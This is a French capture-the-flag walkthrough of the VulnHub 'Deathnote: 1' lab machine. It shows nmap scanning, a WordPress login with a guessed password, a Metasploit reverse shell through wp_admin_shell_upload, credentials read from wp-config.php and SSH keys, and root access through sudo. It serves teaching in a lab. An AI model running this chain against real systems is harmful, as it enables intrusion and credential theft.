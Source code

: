 ```yaml
---
title: "CTF Deathnote: 1"
date: 2021-09-13
tags: ["Pentest", "CTF"]
download: https://www.vulnhub.com/entry/deathnote-1,739
---
```


## Avant propos

Le déroulé de ce hack a été réalisé sur une machine prévue à cette effet. Il est interdit de mener ce genre d'action sur une machine qui ne vous appartient pas sans l'accord de son ou sa propriétaire.  
Ce CTF a été réalisé avec une machine attaquante **Kali 2021.2** (`lsb_release -r`).

## Enumération

On récupère l'adresse IP de la machine distante avec **Netdiscover** `sudo netdiscover`.  
Avant de poursuivre, on exporte cette adresse dans une variable pour être tranquille par la suite `export IP=192.168.1.19`.  
Puis on créé un dossier dédié à ce CTF `cd Documents/ctf && mkdir Deathnote1 && cd Deathnote1`.  
On lance **Nmap** pour scanner les ports de la machine distante.

```bash
$ nmap -sV -sT -p- $IP -oN nmap.txt
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
```

On un serveur **SSH** sur le port **22** et un serveur Apache 2.4.38 sur le port **80**.

En voulant accéder au site, on peut constater qu'il faut modifier le fichier **hosts** pour lui assigner le domaine "deathnote.vuln".

```bash
$ sudo vim /etc/hosts
192.168.1.19    deathnote.vuln
```

Sur la page **Wordpress**, on voit que c'est l'utilisateur "kira" qui a rédigé l'article et en scrollant, on tombe sur ce message "my fav line is iamjustic3". Sur la page de login [http://deathnote.vuln/wordpress/wp-login.php](http://deathnote.vuln/wordpress/wp-login.php), on rentre "kira" et le mot de passe, par déduction "iamjustic3".

## Pénétration

Pour se connecter à la machine, on peut utiliser l'outil **metasploit** pour lancer l'exploit "wp_admin_shell_upload" qui va exécuter un reverse shell.

```bash
$ msfconsole
msf6 > use exploit/unix/webapp/wp_admin_shell_upload
msf6 exploit(unix/webapp/wp_admin_shell_upload) > show options
```

On renseigne l'adresse de destination.

```bash
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set RHOSTS 192.168.1.19
RHOSTS => 192.168.1.19
```

Puis le chemin de **Wordpress**.

```bash
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set TARGETURI /wordpress
TARGETURI => /wordpress
```

Puis le nom de l'utilisateur.

```bash
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set USERNAME kira
USERNAME => kira
```

Puis le mot de passe.

```bash
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set PASSWORD iamjustic3
PASSWORD => iamjustic3
```

Et on lance l'exploit.

```bash
msf6 exploit(unix/webapp/wp_admin_shell_upload) > run
```

Le script s'exécute correctement. On est connecté au serveur.

```bash
$ meterpreter > shell
python -c 'import pty; pty.spawn("/bin/sh")'
```

On trouve un fichier avec du **brainfuck** dans le répertoire de l'utilisateur "l".

```bash
$ cat /home/l/user.txt
++++++++++[>+>+++>+++++++>++++++++++<<<<-]>>>>+++++.<<++.>>+++++++++++.------------.+.+++++.---.<<.>>++++++++++.<<.>>--------------.++++++++.+++++.<<.>>.------------.---.<<.>>++++++++++++++.-----------.---.+++++++..<<.++++++++++++.------------.>>----------.+++++++++++++++++++.-.<<.>>+++++.----------.++++++.<<.>>++.--------.-.++++++.<<.>>------------------.+++.<<.>>----.+.++++++++++.-------.<<.>>+++++++++++++++.-----.<<.>>----.--.+++..<<.>>+.--------.<<.+++++++++++++.>>++++++.--.+++++++++.-----------------.
```

"i think u got the shell , but you wont be able to kill me -kira". De toute évidence, c'est une fausse piste.

En consultant le répertoire de l'utilisateur "kira", on trouve une info intéressante.

```bash
$ cat /home/kira/.ssh/authorized_keys
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDyiW87OWKrV0KW13eKWJir58hT8IbC6Z61SZNh4Yzm9XlfTcCytDH56uhDOqtMR6jVzs9qCSXGQFLhc6IMPF69YMiK9yTU5ahT8LmfO0ObqSfSAGHaS0i5A73pxlqUTHHrzhB3/Jy93n0NfPqOX7HGkLBasYR0v/IreR74iiBI0JseDxyrZCLcl6h9V0WiU0mjbPNBGOffz41CJN78y2YXBuUliOAj/6vBi+wMyFF3jQhP4Su72ssLH1n/E2HBimD0F75mi6LE9SNuI6NivbJUWZFrfbQhN2FSsIHnuoLIJQfuFZsQtJsBQ9d3yvTD2k/POyhURC6MW0V/aQICFZ6z l@deathnote
```

Cela signifie que l'utilisateur "l" est enregistré dans **SSH** pour se connecter au compte de "kira".

On retrouve le mot de passe de l'utilisateur "l" dans le fichier de configuration de **Wordpress**.

```bash
$ cat /var/www/deathnote.vuln/wordpress/wp-config.php
/** MySQL database username */
define( 'DB_USER', 'l' );

/** MySQL database password */
define( 'DB_PASSWORD', 'death4me' );
```

On peut désormais se connecter avec cet utilisateur.

```bash
ssh l@$IP
l@192.168.1.19's password: death4me
```

## Escalation

Puis se connecter avec le compte "kira" sans spécifier de mot de passe.

```bash
$ ssh kira@localhost
$ id
uid=1001(kira) gid=1001(kira) groups=1001(kira),27(sudo)
```

On trouve le premier flag.

```bash
$ cat kira.txt
cGxlYXNlIHByb3RlY3Qgb25lIG9mIHRoZSBmb2xsb3dpbmcgCjEuIEwgKC9vcHQpCjIuIE1pc2EgKC92YXIp
```

En farvouillant partout, on trouve dans le répertoire "/opt", un dossier "L" avec un indice

```bash
$ cat /opt/L/fake-notebook-rule/hint
use cyberchef
```

Puis on consulte le fichier concerné.

```bash
$ cat /opt/L/fake-notebook-rule/case.wav
63 47 46 7a 63 33 64 6b 49 44 6f 67 61 32 6c 79 59 57 6c 7a 5a 58 5a 70 62 43 41 3d
```

Sur [cyberchef](https://gchq.github.io/CyberChef/), en décodant cette chaine hexadécimal, on trouve la valeur en **Base64** `cGFzc3dkIDoga2lyYWlzZXZpbCA=` que l'on décode avec la ligne de commande ci-dessous.

```bash
$ echo 'cGFzc3dkIDoga2lyYWlzZXZpbCA=' | base64 -d
passwd : kiraisevil
```

On a bien le mot de passe de l'utilisateur donc on peut consulter ses privilèges.

```bash
$ sudo -l
[sudo] password for kira: 
Matching Defaults entries for kira on deathnote:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User kira may run the following commands on deathnote:
    (ALL : ALL) ALL
```

L'utilisateur a tous les droits.

```bash
$ sudo bash
$ id
uid=0(root) gid=0(root) groups=0(root)
$ cat /root/root.txt
```

## Préambule

Il existait une autre voie lors de l'énumération pour trouver le mot de passe de l'utilisateur "l". En effet, dans les fichiers d'upload, il y a un fichier contenant une liste de mots de passe à l'adresse suivante [http://deathnote.vuln/wordpress/wp-content/uploads/2021/07/notes.txt](http://deathnote.vuln/wordpress/wp-content/uploads/2021/07/notes.txt). Ainsi, on aurait pu retrouver le mot de passe via l'outil de brute force **Hydra**.
